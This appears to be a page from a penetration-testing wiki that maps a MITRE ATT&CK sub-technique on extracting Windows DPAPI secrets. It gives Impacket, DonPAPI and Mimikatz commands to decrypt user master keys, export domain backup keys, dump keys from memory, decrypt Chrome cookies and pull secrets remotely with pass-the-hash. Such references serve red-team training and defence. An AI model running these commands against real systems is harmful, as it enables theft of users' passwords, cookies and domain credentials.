 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1555.003
---
```


# DPAPI secrets

## Theory

The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:

```bash
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.

Below are common paths of hidden files that usually contain DPAPI-protected data.

```bash
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, DPAPI-data can be manipulated (mainly offline) with tools like [dpapick](https://github.com/jordanbtucker/dpapick) (Python), [dpapilab](https://github.com/dfirfpi/dpapilab) (Python), [Impacket](https://github.com/SecureAuthCorp/impacket)'s [dpapi.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dpapi.py) and [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python).

```bash
# (not tested) Decrypt a master key
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# (not tested) Obtain the backup keys & use it to decrypt a master key
dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET
dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

# (not tested) Decrypt DPAPI-protected data using a master key
dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```

[DonPAPI](https://github.com/login-securite/DonPAPI) (Python) can also be used to remotely extract a user's DPAPI secrets more easily. It supports [pass-the-hash](../../ntlm/pth.md), [pass-the-ticket](../../kerberos/ptt.md) and so on.

```bash
DonPAPI.py 'domain'/'username':'password'@<'targetName' or 'address/mask'>
```
{% endtab %}

{% tab title="Windows" %}
On Windows systems [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used to extract, decrypt or use specific master keys using specified passwords or given sufficient privileges.

```bash
# Extract and decrypt a master key
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected

# Extract and decrypt all master keys
sekurlsa::dpapi

# Extract the backup keys & use it to decrypt a master key
lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK

# Decrypt Chrome data
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"

# Decrypt DPAPI-protected data using a master key
dpapi::cred /in:"C:\path\to\encrypted\file" /masterkey:$MASTERKEY
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords" %}

{% embed url="https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf" %}



